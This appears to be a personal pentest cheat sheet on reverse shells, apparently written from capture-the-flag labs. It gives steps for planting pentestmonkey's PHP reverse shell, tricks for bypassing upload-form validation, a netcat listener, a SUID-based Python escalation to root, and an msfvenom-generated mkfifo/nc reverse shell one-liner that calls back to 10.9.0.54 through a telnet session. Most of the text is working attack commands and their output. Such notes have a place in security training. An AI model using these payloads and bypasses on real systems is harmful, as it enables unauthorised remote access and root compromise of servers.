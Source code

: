 # Reverse Shell

Hacker's machine acts as a server. 
It opens a communication channel on a port and waits for incoming connections. 
Victim's machine acts as a client and initiates a connection to hackers's listening server.

Reverse Shell Cheat Sheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

---
## PHP Reverse Shell

### Script

1. Download PHP script from https://github.com/pentestmonkey/php-reverse-shell
2. Change `IP` and `PORT`to your host IP and random PORT.


### How to bypass validation in uploading forms

* Try to rename php file differently, eg. changing extensions to .phtml or .php.jpg
* Try to change Content-type filtering i.e., changing Content-Type: txt/php to image/jpg
* Try to add special characters to bypass pic.php%00 , pic.php%0a, pic.php%00

### Script deployment & access granting

1. Keep listening on port you choose and included in PHP script.
```
$ nc -lnvp <port>
```
2. Run script or wait if someone will run it. You should get similar output from netcat command:
```
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:17:34 up 28 min,  0 users,  load average: 0.00, 0.01, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And now you have access to www-data user. 

### Escalete to root

1. Look for the files with SUID permission:
```
$ find / -type f -user root -perm -4000 2>/dev/null
```

2. If you have /usr/bin/python on a list, use tool Gtfobins -> https://gtfobins.github.io/
```
$ python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’
```

3. Check who are you:
```
$ whoami
root
```

Root is yours! Congrats!

---

## Netcat Reverse Shell

Case: Telnet connection

### Script

Generate and encode a netcat reverse shell:
```
$ msfvenom -p cmd/unix/reverse_netcat lhost=<local_IP> lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 91 bytes
mkfifo /tmp/wqivu; nc 10.9.0.54 4444 0</tmp/wqivu | /bin/sh >/tmp/wqivu 2>&1; rm /tmp/wqivu
```
* -p - payload
* lhost - local host IP address
* lport - the port to listen on
* R - export the payload in raw format

2. Start a netcat listener:
```
$ nc -lvp <listening_port>
```

3. Copy and paste msfvenom payload into the telnet session 
```
.RUN mkfifo /tmp/wqivu; nc 10.9.0.54 4444 0</tmp/wqivu | /bin/sh >/tmp/wqivu 2>&1; rm /tmp/wqivu
```

5. Check in netcat session, if you have a reverse shell:
```
$ pwd
/root
```

Congrats!

---






